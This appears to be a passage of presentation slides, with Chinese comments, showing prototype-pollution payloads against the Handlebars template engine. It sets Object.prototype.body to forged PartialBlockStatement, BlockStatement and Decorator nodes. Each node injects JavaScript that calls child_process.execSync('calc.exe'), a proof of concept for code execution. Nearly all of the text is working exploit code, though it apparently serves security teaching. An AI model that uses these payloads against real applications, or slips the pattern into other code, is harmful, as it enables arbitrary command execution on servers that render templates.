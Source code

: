```js {hide|1-15|17-30|32-48|50-67|69-83|85-113}{lines:true, maxHeight:'80%'}
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
  },
];

// 将 MustacheStatement 改为 PartialBlockStatement
Object.prototype.body = [
  {
    type: "PartialBlockStatement",
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    name: 0,
    openStrip: 0,
    closeStrip: 0,
    program: { body: 0 },
  },
];

// 将 MustacheStatement 改为 BlockStatement
Object.prototype.body = [
  {
    type: "BlockStatement",
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    path: 0,
    loc: 0,
    openStrip: 0,
    closeStrip: 0,
    program: { body: 0 },
  },
];

// 触发点和上面的有所差异，这个是在装饰 main 函数的时候插入自定义代码
Object.prototype.body = [
  {
    type: "Decorator",
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    path: 0,
    loc: { start: 0 },
  },
];

```